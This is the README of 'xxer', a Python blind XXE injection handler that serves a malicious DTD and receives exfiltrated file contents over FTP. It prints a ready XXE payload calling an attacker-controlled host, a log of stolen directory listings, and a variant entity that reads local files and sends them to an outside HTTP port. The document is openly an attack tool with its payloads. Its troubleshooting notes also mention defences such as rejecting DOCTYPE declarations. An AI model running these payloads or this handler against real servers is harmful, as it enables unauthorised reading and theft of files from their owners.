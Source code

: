 # xxer
A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by [ONsec-Lab](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb). Rewritten here because I don't like Ruby.

## Target Audience
If you can explain what XXE injection is and how to find it, this is for you. If not, check out [vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe).

## Examples

### Options
```
root@kali:~$ xxer.py -h
usage: xxer [-h] [-v] [-q] [-p HTTP] [-P FTP] -H HOSTNAME

XXE Injection Handler

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -q, --quiet           surpress extra output
  -p HTTP, --http HTTP  HTTP server port
  -P FTP, --ftp FTP     FTP server port
  -H HOSTNAME, --hostname HOSTNAME
                        Hostname of this server

Originally from https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-
server.rb, rewritten in Python by TheTwitchy
```

### Basic Usage
```
root@kali:~$ xxer.py -H kali.host.com
                 
 _ _ _ _ ___ ___ 
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|  
                 
version 1.0

info: Starting xxer_httpd on port 8080
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://kali.host.com:8080/ext.dtd">%aaa;%ccc;%ddd;]>


127.0.0.1 - - [23/Apr/2017 20:59:04] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS aaaaaaaaaadescriptivefoldername
IRS_LETTERS_2014_ANGRY
passwords.txt
pictures_of_ex_hi_def
pictures_of_ex_ultra_hi_def
szechuan_sauce_recipe.pgp
TAXES2012
Taxes2013
TAXES2015
Temporary Internet Files
'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'RETR b'
```

## "Features"
  * Only has one exfiltration point (currently, the FTP password). Obviously this can be changed up as needed, but may require some basic code changes (specifically in the FTP handlers).
  * Install via ``pip``. Needs at least a requirements.txt or a setup.py. For now just clone and run.
  * Currently serves up everything in the folder in which it was run over HTTP. Probably not a huge security risk, but something you should be aware of, espeially on a public server.
  * Integrated server file/directory browsing as a future upgrade?

## Troubleshooting
  * I don't get a callback over HTTP to retrieve ``ext.dtd``.
    * This could mean a number of things, mostly related to not being vulnerable to XXE:
      * External entities may be disallowed. This can be done by rejecting DOCTYPE decclarations in documents, which I believe prevents XXE injection.
      * It may also allow entities, but disallow entities from remote sources. I've seen this on some Python XML libraries.
      * Outbound traffic could be blocked at a firewall, or requests mat only go to whitelisted hosts.
    * There could also be a type in the payload or a bug. Check the generated ``ext.dtd`` file to make sure everything looks correct. 
  * The initial HTTP callback for ext.dtd works, but after that I see nothing.
    * This could mean that FTP as a protocol is disabled server-side. Try changing the FTP callback in ``ext.dtd`` to an HTTP one, like ``<!ENTITY % bbb SYSTEM "file:///tmp/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'http://HOSTNAME:2121/b'>">``. If you get a callback to the /b document, this is probably the case. Try using the gopher protocol as well, but this was removed in Java 1.6.32 (or something close).